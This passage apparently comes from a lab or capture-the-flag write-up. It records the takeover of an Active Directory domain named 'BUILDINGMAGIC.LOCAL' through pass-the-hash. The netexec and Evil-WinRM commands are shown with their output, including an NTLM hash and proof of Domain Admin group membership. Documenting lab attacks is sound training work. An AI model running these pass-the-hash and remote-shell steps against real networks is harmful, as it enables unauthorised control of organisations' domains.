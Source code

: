 ## Domain Admin Access – a.flatch

Although the local Administrator hash did not yield access, 
BloodHound/LDAP enumeration revealed that `a.flatch` was a member 
of the **Domain Admins** group.

### Pass-the-Hash with a.flatch
Using the recovered NTLM hash, authentication was successful:

```bash
netexec smb 10.0.16.170 -u a.flatch -H localadmin.hash
```

Result: 

``` bash 
SMB 10.0.16.170 [+] BUILDINGMAGIC.LOCAL\a.flatch:520126a03f5d5a8d836f1c4f34ede7ce
```

### Domain Admin Shell with Evil-WinRM

With valid NTLM credentials, interactive access was obtained:

```bash 
evil-winrm -i 10.0.16.170 -u a.flatch -H localadmin.hash

Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\a.flatch\Documents> whoami
buildingmagic\a.flatch
```

### Proof of Domain Admin Privileges

To confirm domain-level privileges:

```powershell
*Evil-WinRM* PS C:\> whoami /groups
```


Result (abbreviated):

```powershell 
Group Name: Domain Admins Group Name: Enterprise Admins Group Name: Schema Admins ...
```


### Observations

- Successful pass-the-hash authentication as `a.flatch` confirmed access to a **Domain Admin account**.
    
- The Evil-WinRM shell provided full interactive control of the domain controller.
    
- At this point, the Active Directory environment was fully compromised.

--- 